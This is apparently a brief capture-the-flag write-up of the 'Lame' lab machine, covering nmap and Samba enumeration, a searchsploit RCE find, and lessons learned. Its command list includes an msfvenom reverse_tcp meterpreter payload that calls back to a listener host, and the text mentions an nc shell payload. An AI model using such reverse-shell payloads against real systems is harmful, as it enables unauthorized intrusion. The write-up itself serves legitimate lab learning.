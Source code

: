 # Lame - Writeup

First I ran a standard nmap scan where I found some ports that where open. There was a vsftpd on port 21. This one was not vulnerable.

The second port that was investigated was the samba port 445. For some reason smbclient command did not work. I suspect it did not work because it did not speak smb1.0. However, I was able to find the sambaversion by using smbmap. By searchsploiting the sambaversion I found a RCE exploit. The script did not work out of the box. So I found a python alternative on the internet. I tried creating a msfvenom payload but I ran into encoding issues, I then settled my problems by using a minimal "nc" payload.

### Lessons Learned
- You have to really enumerate every port that you see in the nmap output.
- If you find an exploit using the searchsploit command you can probably find an alternative script on the internet.
- You can try different tools if one does not work. For instance smbclient did not work properly on this machine however smbmap worked and helped me find the version for this service.

### Notable commands
- smbmap -H 10.10.10.3
- smbclient //10.10.10.3/tmp -N
- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.37 LPORT=1337 -f python
